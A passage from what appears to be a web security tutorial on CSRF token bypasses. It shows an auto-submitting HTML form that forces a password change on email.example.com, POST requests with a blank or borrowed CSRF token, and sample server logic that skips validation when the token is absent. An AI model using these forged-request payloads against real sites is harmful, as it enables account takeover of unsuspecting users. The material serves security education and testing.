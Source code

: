 ```
<form method="POST" action="https://email.example.com/password_change" id="csrf-form">
<input type="text" name="new_password" value="abc123">
<input type='submit' value="Submit">
</form>
<script>document.getElementById("csrf-form").submit();</script>
```
Alternatively, you can send a request with a blank `csrf_token` parameter:
```http
POST /password_change
Host: email.example.com
Cookie: session_cookie=YOUR_SESSION_COOKIE
(POST request body)
new_password=abc123&csrf_token=
```
To generate such a payload, use an HTML form like the following:
```
<form method="POST" action="https://email.example.com/password_change" id="csrf-form">
<input type="text" name="new_password" value="abc123">
<input type="text" name="csrf_token" value="">
<input type='submit' value="Submit">
</form>
<script>document.getElementById("csrf-form").submit();</script>
```
Deleting the token parameter or sending a blank token can often succeed due to a common application logic mistake. Some applications validate the token only if it exists or if the token parameter is not blank.

### Trying Another Session's CSRF Token
You can also attempt submitting the request with another session's CSRF token. Some applications might only validate the token's validity without confirming it belongs to the current user. For instance, if the victim's token is `871caef0757a4ac9691aceb9aad8b65b` and yours is `YOUR_TOKEN`, you can provide your own token in place of the legitimate one.

For instance, your exploit code could look like this:
```http
POST /password_change
Host: email.example.com
Cookie: session_cookie=YOUR_SESSION_COOKIE
(POST request body)
new_password=abc123&csrf_token=YOUR_TOKEN
```
In cases like this, the application logic might resemble:
```py
def validate_token():
    if request.csrf_token:
        if (request.csrf_token in valid_csrf_tokens):
            pass
        else:
            throw_error("CSRF token incorrect. Request rejected.")
[...]
def process_state_changing_action():
    validate_token()
    execute_action()
```
In this case, the Python code first validates the CSRF token. If the token exists and is valid, the code proceeds with execution. If not, an error is produced. If the token doesn't exist, the code skips validation and executes the action immediately. This means that sending a request without the token or with a blank token might lead to the server not attempting token validation at all.
